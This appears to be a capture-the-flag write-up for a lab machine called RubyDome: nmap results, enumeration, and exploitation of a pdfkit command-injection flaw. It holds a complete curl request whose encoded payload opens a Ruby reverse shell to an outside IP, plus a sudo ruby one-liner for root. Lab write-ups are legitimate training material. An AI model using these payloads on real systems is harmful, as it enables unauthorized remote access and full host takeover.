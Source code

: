 #Pwned! 

## Nmap
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
3000/tcp open  http    syn-ack ttl 61 WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
|_http-title: RubyDome HTML to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap UDP


# Enumeration

## HTTP

### Directories
/pdf
/__sinatra__

### Exploits
```
searchsploit -m multiple/remote/33489.txt
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927094233.png?raw=true)

error:
```
get &#x27;&#x2F;%1b%5d%32%3b%6f%77%6e%65%64%07%0a&#x27; do
  &quot;Hello World&quot;
end
```

search for pdfkit vulnerabilities
https://github.com/shamo0/PDFkit-CMD-Injection
```
curl 'http://rubydome.pg:3000/pdf' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: rubydome.pg' -H 'Connection: keep-alive' -H 'Referer: rubydome.pg' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F192.168.45.250%3A3000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22192.168.45.250%22%2C80%29%29%27%60'
```

# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927102823.png?raw=true)
sudo -l
```
/usr/bin/ruby -e 'exec "sudo /bin/sh"'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240927104659.png?raw=true)


## Automated

### Peass
### Mimikatz


